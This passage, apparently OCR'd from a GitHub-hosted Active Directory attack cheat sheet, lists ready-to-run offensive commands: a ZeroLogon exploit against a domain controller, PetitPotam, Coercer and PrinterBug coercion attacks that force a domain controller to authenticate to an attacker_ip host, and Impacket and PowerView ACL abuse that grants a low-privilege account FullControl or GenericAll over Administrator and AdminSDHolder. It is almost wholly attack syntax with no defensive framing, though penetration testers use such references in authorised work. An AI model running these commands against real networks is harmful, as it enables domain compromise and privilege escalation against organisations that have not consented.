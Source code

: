 #### **Windows:**
```powershell
# SharpZeroLogon
.\SharpZeroLogon.exe DC_NAME DC_IP
```

### **🔗 Coercion Attacks**

#### **PetitPotam**
```bash
# Linux
python3 PetitPotam.py attacker_ip DC_IP
python3 PetitPotam.py -u lowpriv -p password attacker_ip DC_IP

# Windows
.\PetitPotam.exe attacker_ip DC_IP
```

#### **Coercer (Multiple Methods)**
```bash
# Comprehensive coercion scanning
python3 Coercer.py -t DC_IP -l attacker_ip --scan
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-RPRN
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-EFSRPC
python3 Coercer.py -t DC_IP -l attacker_ip -m MS-DFSNM
```

#### **PrinterBug**
```bash
# SpoolSample
python3 printerbug.py domain.com/lowpriv:password@DC_IP attacker_ip

# Windows
.\SpoolSample.exe DC_IP attacker_ip
```

### **🏛️ Advanced ACL Abuse**

#### **Linux:**
```bash
# dacledit.py (Impacket)
dacledit.py -action read -target Administrator domain.com/lowpriv:password -dc-ip DC_IP
dacledit.py -action write -target Administrator -principal lowpriv -rights FullControl domain.com/lowpriv:password -dc-ip DC_IP

# owneredit.py
owneredit.py -action read -target Administrator domain.com/lowpriv:password -dc-ip DC_IP
owneredit.py -action write -target Administrator -new-owner lowpriv domain.com/lowpriv:password -dc-ip DC_IP
```

#### **Windows:**
```powershell
# PowerView Advanced ACL
Get-ObjectAcl -SamAccountName Administrator -ResolveGUIDs | Where-Object {$_.IdentityReference -eq "DOMAIN\lowpriv"}
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName lowpriv -Rights All

# Set-ADACL
Set-ADACL -SamAccountName Administrator -Right GenericAll -Principal lowpriv
```
